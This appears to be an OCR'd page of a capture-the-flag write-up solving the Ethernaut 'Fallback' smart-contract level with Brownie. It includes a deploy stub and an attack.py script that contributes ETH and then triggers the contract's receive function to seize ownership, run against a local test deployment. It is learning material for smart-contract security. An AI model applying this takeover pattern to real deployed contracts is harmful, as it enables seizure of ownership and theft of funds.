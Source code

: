 ```py


def main():
    deploy()
```

- First we're importing the Fallback contract from brownie i.e. the ABI (I guess so :)). Then the next import is our `get_account` function to get our testing accounts. This `deploy` function is deploying the contract locally & returnining the contract object & the address of the owner.

- Now the final & most important one.
- `attack.py`

```py
#!/usr/bin/python3
from brownie import interface
from web3 import Web3
from colorama import Fore
from scripts.deploy import deploy
from scripts.helpful_scripts import get_account

# ? Global variables
AMOUNT = 0.00002
CONVERTED_AMOUNT = Web3.toWei(AMOUNT, "ether")

# * colours
green = Fore.GREEN
red = Fore.RED
blue = Fore.BLUE
magenta = Fore.MAGENTA
reset = Fore.RESET


def attack(contract_address=None, attacker=None):
    if contract_address is None:
        fallback_contract, owner = deploy()
        contract_address = fallback_contract.address
        # ? Geeting the accounst for local testing
        _, attacker = get_account()

    # print(contract_address)
    # print(attacker)
    # exit(1)

    fallback = interface.Fallback(contract_address)
    contrib_tx = fallback.contribute({"from": attacker, "value": CONVERTED_AMOUNT})
    contrib_tx.wait(1)

    print(f"{green}Contributed {AMOUNT} ETH to the contract{reset}")
    print(
        f"Contract Balance: {green}{Web3.fromWei(fallback_contract.balance(), 'ether')} ETH{reset}"
    )

    # ? Invoking the fallback fn. i.e. the recieve() methind in solidity which enables a contract to accept payments

    print(f"{red}Doing the Attack by invoking the fallback fn.{reset}")
    attack_tx = attacker.transfer(contract_address, CONVERTED_AMOUNT)
    attack_tx.wait(1)

    print(f"Previous Address of the owner : {green}{owner}{reset}")
    print(f"Current Address of the owner : {green}{fallback_contract.owner()}{reset}")
    print(f"Address of the attacker : {green}{attacker}{reset}")
    print(f"{red}Hehe Wer're now the owner{reset}")
```